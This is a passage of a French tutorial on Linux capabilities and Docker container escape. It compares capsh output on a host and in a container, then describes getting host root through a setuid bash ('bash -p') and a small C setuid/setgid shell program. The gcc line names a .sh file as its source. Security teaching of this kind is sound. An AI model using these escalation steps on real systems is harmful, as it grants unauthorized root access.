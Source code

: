 ```bash
 secure-no-ambient-raise: no (unlocked)
uid=1000(root) euid=0(root)
gid=1000(marcus)
groups=1000(marcus)
Guessed mode: UNCERTAIN (0)
```

On voit ici que toutes les capacités sont présentes.

A l'inverse - de base - un conteneur possède seulement un nombre limité de capacités :

```bash
capsh --print
Current: cap_chown,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap=eip
Bounding set =cap_chown,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: cap_chown,!cap_dac_override,!cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,!cap_linux_immutable,cap_net_bind_service,!cap_net_broadcast,!cap_net_admin,cap_net_raw,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,cap_sys_chroot,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_mknod,!cap_lease,cap_audit_write,!cap_audit_control,cap_setfcap,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=33(www-data)
Guessed mode: UNCERTAIN (0)
```

Un bug dans les overlay linux, largement utilisé par docker, permettait d'accéder à des dossiers de docker normalement inaccessibles.

Si on peut créer un binaire avec des capacités de type setuid et setgid, on peut alors faire en sorte d'utiliser ce binaire afin de devenir root sur la machine.

Un simple script bash nous permet de tester cela.

Il y a plusieurs manières de procéder :

- via bash : on devient root sur le conteneur, on fait chmod u+s sur bash. Ensuite, on revient sur l'hôte et on exécute bash -p. On devient root.
- via un programme : on devient root sur le conteneur, on importe un petit programme qu'on compile dans le conteneur (pour des question de librairie) :
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	setuid(0);
	setgid(0);
	system("/bin/bash");
	exit(0);
}
```
```bash
gcc be_root.sh -o beroot
```
